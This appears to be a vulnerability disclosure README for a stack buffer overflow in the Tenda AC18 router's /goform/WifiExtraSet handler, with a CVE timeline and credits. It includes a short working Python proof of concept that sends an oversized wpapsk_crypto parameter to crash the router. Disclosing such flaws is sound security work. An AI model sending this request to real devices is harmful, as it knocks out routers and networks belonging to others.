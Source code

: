 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `victim_buf`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `vuln_buf`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/WifiExtraSet`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=not_ap&security=wpapsk&wpapsk_key=kkkkkkkk&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30475)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41850)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
